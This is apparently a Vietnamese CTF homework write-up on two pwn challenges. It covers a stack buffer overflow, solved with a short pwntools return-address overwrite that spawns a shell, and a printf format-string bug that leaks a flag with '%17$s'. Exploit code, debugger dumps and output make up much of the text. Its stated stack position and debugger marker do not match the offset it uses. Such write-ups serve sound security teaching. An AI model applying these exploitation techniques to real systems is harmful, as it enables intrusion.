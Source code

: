 # pwn

# Homework - 18/8 #

## bof_nocanary ##

```C
void *__fastcall vuln(const char *a1)
{
  size_t v1; // rax
  char dest[32]; // [rsp+10h] [rbp-20h] BYREF

  if ( strlen(a1) > 64 )
  {
    puts("Buffer too long!!");
    _exit(-1);
  }
  v1 = strlen(a1);
  return memcpy(dest, a1, v1);
}
```

Trong bài này, dest có 32 kí tự, mà giới hạn độ dài của tham số truyền vào là 64, nên mình có thể ghi đè được 32 kí tự

Thử nhập 1 chuỗi kí tự a nhiều hơn 32 kí tự thì mình thấy rbp bị ghi đè
```
00:0000│ rsp     0x7fffffffdd70 —▸ 0x555555554040 ◂— 0x400000006
01:0008│         0x7fffffffdd78 —▸ 0x7fffffffe184 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
02:0010│ rax rdi 0x7fffffffdd80 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓            3 skipped
06:0030│ rbp     0x7fffffffdda0 —▸ 0x7fffffff6161 ◂— 0x0
07:0038│         0x7fffffffdda8 —▸ 0x5555555552cd (main+132) ◂— mov eax, 0
```

Để gọi được hàm `w1n` ở địa chỉ `0x5555555552d4` thì mình cần ghi đè địa chỉ trả về hàm main.
Nhìn stack ở trên thì mình cần 32 kí tự + 8 kí tự để ghi đè rbp + kí tự '\xd4'

```python
from pwn import *
proc = process(["./bof", (b"a"*40 + b"\xd4")])
proc.interactive()
```
```
duplicate@Pwn:/tmp$ ipython3 solbof.py
[x] Starting local process './bof'
[+] Starting local process './bof': pid 1852
[*] Switching to interactive mode
whoami
duplicate
[*] Stopped process './bof' (pid 1852)
```

## chall1
```C
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v5; // [rsp+88h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  printf("Enter your name: ");
  fgets(s, 127, stdin);
  printf("Hello ");
  printf(s); // -> format
  putchar(10);
  return 0LL;
}
```
Mình sẽ dùng format '%s' để lấy ra được flag.
Đặt break point ở 0x13F7 (`0x5555555553f7`) ta thấy flag được lưu tại `0x555555559690`
```
RSI  0x555555559690 ◂— 'w1{good_job_;)}\n'
```
Sau đó mình check xem thử trong stack địa chỉ này nằm ở đâu, thì mình thấy nó nằm ở vị trí thứ 16 trong stack.
```
pwndbg> x/20xg $sp
0x7fffffffdd00: 0x0000000300000000       0x0000000000000020
0x7fffffffdd10: 0x0000000000000020       0x0000000000000007
0x7fffffffdd20: 0x00005555555592a0       0x0000555555559330
0x7fffffffdd30: 0x00005555555593c0       0x0000555555559450
0x7fffffffdd40: 0x00005555555594e0       0x0000555555559570
0x7fffffffdd50: 0x0000555555559600       0x0000555555559690
0x7fffffffdd60: 0x0000555555559720       0x00005555555597b0
0x7fffffffdd70: 0x0000555555559840       0x00005555555598d0
0x7fffffffdd80: 0x0000555555559960->here 0x00005555555599f0  
0x7fffffffdd90: 0x0000555555559a80       0x0000555555559b10
```
Vậy nên mình sẽ nhập vào `%17$s` để có được flag.
```
pwndbg> run
Starting program: /mnt/d/New/ubuntu/task/re_pwn/pwn-23-8/chall1/chall1
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter your name: %17$s
Hello w1{good_job_;)}
```


